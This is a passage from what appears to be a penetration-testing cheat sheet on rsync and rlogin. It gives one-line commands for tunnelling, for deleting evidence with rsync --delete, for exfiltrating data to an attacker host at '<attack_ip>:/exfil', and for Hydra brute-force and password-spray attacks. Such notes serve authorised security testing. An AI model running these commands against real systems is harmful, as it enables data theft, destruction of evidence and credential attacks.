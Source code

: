 ## Tunneling Rsync Over SSH
- **Tool:** [[SSH]]
	```bash
	ssh -L 873:<target_ip>:873 <user>@<target_ip> rsync -avz <source> localhost::module/path
	```
- **Description:** By default, Rsync uses unencrypted data transfer on port 873. Tunneling Rsync over SSH encrypts the entire session, providing confidentiality and integrity.

## Defense Evasion

### Using Rsync to Evade Detection
- **Tool:** [[RSync]], [[SSH]]
    ```bash
    rsync -avz --delete --rsh="ssh -i ~/.ssh/id_rsa" /data user@<target_ip>:/data
    ```
- **Description:** Deletes evidence of activity by synchronizing and removing files using Rsync’s `--delete` option.

## Data Exfiltration

### Covert Data Exfiltration via Rsync*
- **Tool:** [[RSync]], [[SSH]]
    ```bash
    rsync -avz -e "ssh -i ~/.ssh/id_rsa" /data user@<attack_ip>:/exfil
    ```
- **Description:** Exfiltrates data from a compromised system using Rsync over SSH, ensuring secure and efficient transfer.

# Exploits and Attacks

## Password Attacks

### Techniques:

### Password Brute Force
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra rlogin://<target_ip> -s <target_port> -l <username> -P <password_list>
    ```
- **Description:** Test a single username against multiple passwords.

### Password Spray
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra rlogin://<target_ip> -s <target_port> -l <username_list> -P <password>
    ```
- **Description:** Test a multiple usernames against a single password.
